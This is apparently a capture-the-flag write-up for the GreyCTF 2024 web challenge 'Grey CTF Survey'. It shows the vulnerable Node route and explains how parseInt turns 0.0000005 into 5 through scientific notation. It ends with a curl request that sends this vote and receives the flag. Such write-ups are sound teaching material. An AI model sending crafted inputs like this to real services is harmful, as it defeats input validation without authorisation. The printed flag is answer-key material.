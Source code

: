 ```yaml
---
title: Grey CTF Survey
categories: [GreyCTF 2024, Web]
date: 2024-04-20
date_time: 2024-04-20 18:09
tags: 
- js/parseInt
details: Improper use of `parseInt` leads to unexpected results	
difficulty: 2
solved: yes
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/greyctf-survey"
img_path: /Writeups/CTF/GreyCTF%202024/Web/Grey%20CTF%20Survey/attachments
image:
  src: ../../Beautiful%20Styles/attachments/Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Source Code Analysis

```
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```
>Vulnerability Details:
>[Solving a Mystery Behavior of parseInt() in JavaScript](https://dmitripavlutin.com/parseint-mystery-javascript/)
>- User input, an integer is passed into `parseInt()`, causing an unexpected value.
>- When an integer is passed into `parseInt()` 
>	1. it is converted to a string then into an integer again, 
>	2. if a number gets too large/small, "[Scientific Notation](https://en.wikipedia.org/wiki/Scientific_notation)" is used
>	3. So `0.0000005` turns into `5e-7` (String) and then `5` (int)
{: .prompt-info}

```
String(0.5); // => '0.5'  

String(0.05); // => '0.05'  

String(0.005); // => '0.005'  

String(0.0005); // => '0.0005'  

String(0.00005); // => '0.00005'  

String(0.000005); // => '0.000005'  

String(0.0000005); // => '5e-7' => 5
```



# Solution

```
┌──(root💀kali)-[~/boxes/nusgreyhat/WEB/Grey CTF Survey]
└─$ curl -H "Content-Type: application/json" -d '{"vote":0.0000005}' http://challs.nusgreyhats.org:33334/vote
{"error":false,"msg":"grey{50m371m35_4_l177l3_6035_4_l0n6_w4y}"}   
```




